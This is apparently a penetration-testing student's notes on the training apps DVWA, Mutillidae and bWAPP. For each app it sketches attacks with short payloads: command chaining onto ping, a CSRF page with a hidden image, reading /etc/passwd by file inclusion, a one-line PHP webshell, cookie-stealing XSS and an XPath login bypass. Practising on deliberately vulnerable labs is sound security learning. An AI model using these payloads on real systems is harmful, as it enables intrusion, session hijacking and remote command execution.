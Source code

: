 kalitags: #type/note

---
# DVWA - Damn vulnerable web application
## brute force
brute force with burp cluster bomb
## command execution
end ping command with ; | or && and then enter another command
## CSRF - cross site request forgery
1. get request in burp
2. write proof of concept script
```html
<html>
	<head>
		<title>CSRF Proof of Concept</title>
	</head>
	<body>
		<h1>CSRF Example</h1>
		<img style="display:none" src="ENTER THE FORGED REQUEST HERE" alt="">
	</body>
</html>
```

usually you do a 1:1 copy of the webpage and insert this snippet with a hidden image
3. in the hidden image src part you enter the request you want to be sent
4. you present the malicous wite to some user the request will be sent using his session ID -> you might be able to change credentials, retrieve information,...
## Insecure captcha
doesnt work anymore
## File Inclusion
change page parameter in request to some file like /etc/passwd
can you include a remote file?
## SQL injection
[[2 Tech-Specifics/Web/Web Application Attacks/SQL Injection]]
## upload vulns
upload a simple php webshell
```php
<?php
	system($GET["cmd"]);
?>
```

then send request to this file on the webserver and pass a command in cmd parameter
## XSS
enter a script tag
```html
<script>alert();</script>
```

```html
<script>alert(document.cookie);</script>
```

# OWASP mutillidae

just explore and hackk :)
# bWAPP
better use on 10.0.1.11 
## HTML Injection
insert script tag for cross site scripting

## XPAth injection (logon)
Xpath is the query languag used for databases which use xml as file format
`' or '1'='1 ` dont forget the space at the end!
## XPath Injection (search)
irgendwie kompliziert
## PHP injection
in URL parameter message ändern zu php info oder so
## man in the middle
sniff credentials with wireshark


